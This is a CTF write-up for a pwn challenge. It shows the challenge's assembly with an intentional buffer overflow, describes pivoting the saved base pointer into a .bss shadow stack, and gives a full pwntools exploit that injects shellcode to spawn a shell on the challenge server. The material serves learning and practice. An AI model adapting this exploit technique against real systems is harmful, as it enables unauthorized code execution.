

## zer0pts CTF: not beginner's stack [pwn]
##### *tl;dr: overwrite saved base pointer to point to .bss section which holds saved instruction pointers*

##### main.S
```a
global _start
section .text

%macro call 1
;; __stack_shadow[__stack_depth++] = return_address;
  mov ecx, [__stack_depth]
  mov qword [__stack_shadow + rcx * 8], %%return_address
  inc dword [__stack_depth]
;; goto function
  jmp %1
  %%return_address:
%endmacro

%macro ret 0
;; goto __stack_shadow[--__stack_depth];
  dec dword [__stack_depth]
  mov ecx, [__stack_depth]
  jmp qword [__stack_shadow + rcx * 8]
%endmacro

_start:
  call notvuln
  call exit

notvuln:
;; char buf[0x100];
  enter 0x100, 0
;; vuln();
  call vuln
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x100);
  mov edx, 0x100
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return 0;
  xor eax, eax
  ret

vuln:
;; char buf[0x100];
  enter 0x100, 0
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x1000);
  mov edx, 0x1000               ; [!] vulnerability
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return;
  leave
  ret

read:
  xor eax, eax
  syscall
  ret

write:
  xor eax, eax
  inc eax
  syscall
  ret

exit:
  mov eax, 60
  syscall
  hlt
  
section .data
msg_data:
  db "Data: "
__stack_depth:
  dd 0

section .bss
__stack_shadow:
  resb 1024

```

#### We were given a mini lecture which was pretty neat, along with the asm source of the challenge. In depth writeup later after I review some of the writeups for the other challs. Basically what we need to do is in the tl;dr, at which point we can then control code flow when we overwrite the saved instruction pointers. My plan was to place a shellcode there and jump to it. 

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./chall', checksec = False)
#libc = ELF('./libc.so.6', checksec = False)

#p = process('./chall')
p = remote('pwn.ctf.zer0pts.com', 9011)

#: GDB SETTINGS
breakpoints = ['break *vuln']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF

#: PWN THY VULNS
context.arch = 'amd64'
print(p.recvuntil(b'Data: '))
p.sendline(cyclic(0x100) + p64(0x600334)) #: SET RBP TO .bss THEN OVERWRITE SAVED INSTRUCTION POINTERS	

print(p.recvuntil(b'Data: '))
p.sendline(cyclic(8) + p64(0x600234 + 0x10) + asm('jmp [rbp - 0x100 + 0x18]') + b'AA' + p64(0x600254) + asm(shellcraft.sh()))
p.interactive()
```
